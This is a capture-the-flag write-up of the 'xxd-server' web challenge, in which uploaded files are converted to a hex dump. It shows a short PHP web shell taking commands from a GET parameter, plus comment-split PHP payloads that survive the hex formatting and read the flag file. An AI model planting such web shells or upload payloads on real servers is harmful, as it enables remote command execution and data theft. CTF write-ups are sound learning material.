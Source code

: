 # xxd-server

## Challenge description

XXD server is the last beginner challenge from the web category and for me it was harder than the rest.

It's a php server where you upload a file and it gets transformed to hex encoding with the original text to the side.

The files .htaccess and the docker file basically make it so that only the php files are executed and every other type of file gets dealt with as a text/plain.

Now with that being said and taking into account that I'm pretty new to CTFing and mostly a dumbass in general it shouldn't come as a surprise that I came up with the stupidest possible solution to this challenge which after talking to a friend I realised was an unintended solution.

The intended solution taking into account you can have a php file with no problems if it's less than 16 characters is probably something like this:

```php
<?=`$_GET[0]`;
```

Which is a web shell that's less than 16 characters.

Now without further ado, my solution “The scenic route”:

## The scenic route

My first attempt was to do the usual 

```php
<?php phpinfo() ?>
```

But that didn't work, there was an unexpected integer in the way, a new line had started so the payload breaks. So I got the gist and changed to the intended easier solution, Right? Wrong, let's go even dumber!

A good way to get over the problem of having undesired characters in the middle is just using multiline comments /**/, everything in the middle gets nullified and php goes merely on its way, so this works:

```php
<?php /*        */phpinfo()/*  */?>
```

### He'll surely realise eventually

In this case I had to split it in 3 because phpinfo() is 9 characters and you need 4 free characters for opening and closing comments, now that that worked the plan was to use this payload to get the job done:

```php

<?php $c=fopen("/flag","r");echo fread($c,filesize("/flag"));>
```

It didn't use file_get_contents() because it was literally too long, but this should work just as well, it just needed to get modified a tad bit to be able to execute under the non optimal working conditions…

### He did in fact, not realise

After some extreme modifications this is the ugly thing I ended up with:

```php

<?php $b="r";/* */$a= "/flag";/**/$c=         /**/fopen($a,$b)/**/;$d=fread($c/**/,filesize($a/**/)); echo $d?>
```

But it did work.

![flag_xxd-server.png](xxd-server%20ef81a51f18a04a028a6c3380b401691a/flag_xxd-server.png)

After I found out that my solve was overly complicated I decided that I had no option but commit to the extreme stupidity and make a tool out of it so sooner or later I'll release a CLI tool to turn PHP into chunks that can live separated from each other also splitting function names based on a writeup I saw online and still execute. It was a fun experience even if unintendedly so.

Thanks for reading
